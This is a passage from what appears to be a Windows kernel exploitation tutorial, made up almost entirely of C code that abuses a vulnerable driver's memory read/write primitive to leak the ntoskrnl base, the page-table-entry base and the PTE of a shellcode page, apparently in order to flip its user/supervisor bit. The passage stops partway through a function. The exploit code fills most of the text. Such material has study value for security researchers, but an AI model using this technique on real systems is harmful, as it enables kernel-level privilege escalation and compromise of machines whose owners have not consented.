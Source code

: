 ```c

	LOG("[+] ntoskrnl.exe is located at: 0x%llx\n", kernelBaseAddress);

	return kernelBaseAddress;
}
```

Then, we will be getting the PTEs base address -
```c
unsigned long long getBasePteAddress(HANDLE hDriver, unsigned long long kernelBaseAddress) {

	unsigned long long NtMiGetPteAddress = kernelBaseAddress + MI_PTE_GET_ADDRESS_OFFSET;

	// Defining a pointer to write the base of PTEs to. (must initialize pointer, hence placeholder).
	unsigned long long pteBaseAddressPlaceHolder = 0;
	PULONGLONG baseOfPtes = &pteBaseAddressPlaceHolder;

	// Defining buffer to send to driver
	char buffer[0x10];
	size_t oneQword = 0x8;

	// Initializing buffer to junk to satisfy type error of memset.
	memset(buffer, 0x41, 0x10);

	// Actual buffer for extracting the PTE base.
	memcpy(buffer, &NtMiGetPteAddress, oneQword);
	memcpy(&buffer[0x8], &baseOfPtes, oneQword);

	sendBufferToDriver(hDriver, buffer);

	LOG("[+] Base of the page table entries: 0x%llx\n", (unsigned long long) * baseOfPtes)

	return (unsigned long long) * baseOfPtes;
}
```

Now, let's find the shellcode PTE - 
```c
unsigned long long getShellcodePTEAddress(unsigned long long baseOfPtes, void* shellcodeAddress) {

	// Bitwise operations to locate PTE of shellcode page
	unsigned long long shellcodePte = (unsigned long long)shellcodeAddress >> 9;
	shellcodePte = shellcodePte & 0x7FFFFFFFF8;
	return shellcodePte + baseOfPtes;
}
```

Calculate the address of the Control Flags where the `U/S` bit can be found -
```c
unsigned long long getShellcodePteControlFlagAddress(HANDLE hDriver, unsigned long long shellcodePte) {

	// Defining a pointer to extract shellcode's PTE control bits. (must initialize pointer, hence placeholder).
	unsigned long long placeholder = 0;
	PULONGLONG pteControlFlagsPointer = &placeholder;

	// Defining buffer to send to driver.
	char buffer[0x10];
	size_t oneQword = 0x8;

	// Initializing buffer to junk to satisfy type error of memset
	memset(buffer, 0x41, 0x10);

```